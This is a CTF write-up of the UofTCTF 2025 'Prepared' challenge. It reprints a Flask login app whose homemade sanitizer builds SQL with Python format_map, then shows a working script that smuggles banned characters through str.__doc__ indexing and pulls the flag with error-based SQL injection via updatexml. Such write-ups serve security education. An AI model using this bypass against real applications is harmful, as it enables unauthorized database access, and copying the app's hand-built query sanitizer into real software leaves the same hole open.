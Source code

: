 ```yaml
---
title: Prepared
description: Who needs prepared statements and parameterized queries when you can use the amazing new QueryBuilder™ and its built-in DirtyString™ sanitizer?
categories: ["ctf", "UofTCTF 2025"]
tags: ["web"]
media_subpath: "/assets/posts/2025/uoftctf/prepared"
---
```


We have a simple login page:

![](1.png)

The code is pretty short: 

{% raw %}
```py
import re
from flask import Flask, render_template, request, redirect, url_for, flash
import mysql.connector
import os
import setuptools

app = Flask(__name__)
app.secret_key = os.urandom(24)

DB_HOST = os.getenv('MYSQL_HOST', 'localhost')
DB_USER = os.getenv('MYSQL_USER', 'root')
DB_PASSWORD = os.getenv('MYSQL_PASSWORD', 'rootpassword')
DB_NAME = os.getenv('MYSQL_DB', 'prepared_db')

class MaliciousCharacterError(Exception):
    pass

class NonPrintableCharacterError(Exception):
    pass

class DirtyString:
    MALICIOUS_CHARS = ['"', "'", "\\", "/", "*", "+" "%", "-", ";", "#", "(", ")", " ", ","]

    def __init__(self, value, key):
        self.value = value
        self.key = key

    def __repr__(self):
        return self.get_value()

    def check_malicious(self):
        if not all(32 <= ord(c) <= 126 for c in self.value):
            raise NonPrintableCharacterError(f"Non-printable ASCII character found in '{self.key}'.")
        for char in self.value:
            if char in self.MALICIOUS_CHARS:
                raise MaliciousCharacterError(f"Malicious character '{char}' found in '{self.key}'")

    def get_value(self):
        self.check_malicious()
        return self.value

class QueryBuilder:
    def __init__(self, query_template, dirty_strings):
        self.query_template = query_template
        self.dirty_strings = {ds.key: ds for ds in dirty_strings}
        self.placeholders = self.get_all_placeholders(self.query_template)

    def get_all_placeholders(self, query_template=None):
        pattern = re.compile(r'\{(\w+)\}')
        return pattern.findall(query_template)

    def build_query(self):
        query = self.query_template
        self.placeholders = self.get_all_placeholders(query)
        
        while self.placeholders:
            key = self.placeholders[0]
            format_map = dict.fromkeys(self.placeholders, lambda _, k: f"{{{k}}}")
            
            for k in self.placeholders:
                if k in self.dirty_strings:
                    if key == k:
                        format_map[k] = self.dirty_strings[k].get_value()
                else:
                    format_map[k] = DirtyString
                    
            query = query.format_map(type('FormatDict', (), {
                '__getitem__': lambda _, k: format_map[k] if isinstance(format_map[k], str) else format_map[k]("",k)
            })())
            
            self.placeholders = self.get_all_placeholders(query)
            
        return query

def get_db_connection():
    try:
        cnx = mysql.connector.connect(
            host=DB_HOST,
            user=DB_USER,
            password=DB_PASSWORD,
            database=DB_NAME
        )
        return cnx
    except mysql.connector.Error as err:
        print(f"Error: {err}")
        return None

@app.route('/', methods=['GET', 'POST'])
def login():
    if request.method == 'POST':
        data = request.form
        username = data.get('username', '')
        password = data.get('password', '')

        if not username or not password:
            flash("Username and password are required.", 'error')
            return redirect(url_for('login'))

        try:
            du = DirtyString(username, 'username')
            dp = DirtyString(password, 'password')

            qb = QueryBuilder(
                "SELECT * FROM users WHERE username = '{username}' AND password = '{password}'",
                [du, dp]
            )
            sanitized_query = qb.build_query()
            print(f"Sanitized query: {sanitized_query}")
        except (MaliciousCharacterError, NonPrintableCharacterError) as e:
            flash(str(e), 'error')
            return redirect(url_for('login'))
        except Exception:
            flash("Invalid credentials.", 'error')
            return redirect(url_for('login'))

        cnx = get_db_connection()
        if not cnx:
            flash("Database connection failed.", 'error')
            return redirect(url_for('login'))

        cursor = cnx.cursor(dictionary=True)
        try:
            cursor.execute(sanitized_query)
            user = cursor.fetchone()
            if user:
                flash("Login successful!", 'success')
                return render_template('under_construction.html')
            else:
                flash("Invalid credentials.", 'error')
        except mysql.connector.Error as err:
            flash(f"Database query failed: {err}", 'error')
        finally:
            cursor.close()
            cnx.close()

    return render_template('login.html')

@app.route('/under_construction')
def under_construction():
    return render_template('under_construction.html')

if __name__ == "__main__":
    app.run(host='0.0.0.0', port=5000, debug=False)
```
{% endraw %}

Instead of using prepared queries from the MySQL driver, it uses a custom implementation that sanitizes the string
and directly interpolates the parameters. We cannot use a lot of characters, but one thing stands out: the usage of
`format_map`. It is similar to `format`, but you can specify a custom object.

At each iteration, it calls `format_map` on the string for each placeholder. Placeholders are considered any valid
character matched by `\w` in regex, between curly brackets. This includes letters, numbers and underscores.

However, Python format strings are much more powerful than simple variable substitution. It is actually a mini-language:

![](2.png)

That means that we can access fields of objects, but not call functions. Characters like `.` are valid in the format
spec, but will not be matched by the custom placeholder regex in the app. But each format replacement field will be 
evaluated by `format_map`.

We can use this to inject special symbols in the SQL query, since `{` and `}` are not banned. But still, characters 
like `'` are, and they are mandatory to escape the quoted literals in the query.

Since we cannot call functions inside the format replacement fields, we need to get creative. Let's see what fields
a string contains:

![](3.png)

While most of these are functions, `__doc__` is a string property. We can also use subscripts, so we can inject disallowed
characters by slicing the `__doc__` property of a string. We still need a valid reference to a variable in the format 
context (e.g. `password`), so we can inject the format replacement field in the username and the password can be anything.

![](4.png)

We have successfully bypassed the denylist. Now, onto the SQL injection.

We need to get the flag from the `flags` table.

Let's see what happens when the server tries to execute a malformed query:

![](5.png)

We have an error-based SQL injection, which makes everything simpler.

We can use `updatexml`, which is a function in MySQL that, in case of errors, returns the malformed input.
Each forbidden character will be replaced with the technique explained above. Note that `updatexml` only returns
a slice of the string, so we need to split it into multiple requests and call `substr` to advance the substring.

{% raw %}
```py
import requests

url = "http://localhost:5000/"
#url = "https://prepared-1-f4c92e0ca79e0c02.chal.uoftctf.org/"

payloads = [
    "' or updatexml(rand(),concat(0x3a,(SELECT concat(CHAR(126),flag,CHAR(126)) FROM flags)),null) -- ",
    "' or updatexml(rand(),concat(0x3a,(SELECT concat(CHAR(126),substr(flag, 24),CHAR(126)) FROM flags)),null) -- "
]
to_replace = [" ", "'", "-", ",", "(", ")"]

for payload in payloads:
    for char in to_replace:
        index = "".__doc__.index(char)
        payload = payload.replace(char, f"{{password.__doc__[{index}]}}")
    print(payload)

    response = requests.post(url, data={
        "username": payload,
        "password": "A"
    })
    print(response.content)

```
{% endraw %}

We find the flag among the SQL errors in the response.
